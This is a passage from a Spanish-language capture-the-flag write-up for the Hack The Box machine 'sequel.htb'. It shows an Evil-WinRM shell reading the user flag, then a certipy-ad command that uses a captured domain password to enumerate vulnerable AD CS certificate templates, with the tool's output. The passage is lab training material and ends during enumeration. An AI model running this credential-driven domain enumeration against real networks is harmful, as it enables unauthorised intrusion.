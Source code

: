 ~~~ 
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÃÄÄÄSearches
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\Ryan.Cooper> cd desktop
*Evil-WinRM* PS C:\Users\Ryan.Cooper\desktop> type user.txt
<Encuentre su propia USER FLAG>
~~~

---
## Escalada de Privilegios

### Escalada de Privilegios
Para la escalada de privilegios se realizo enumeración manual, pero no se pudo encontrar nada interesante.
Pasando a realizar una enumeración automatizada con herramientas como adpeas, se mostro que existen certificados contemplados en el dominio, por lo que voy en busca de certificados vulnerables.
~~~bash
certipy-ad find -u 'Ryan.cooper'@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sequel-DC-CA'
[*] Checking web enrollment for CA 'sequel-DC-CA' @ 'dc.sequel.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
~~~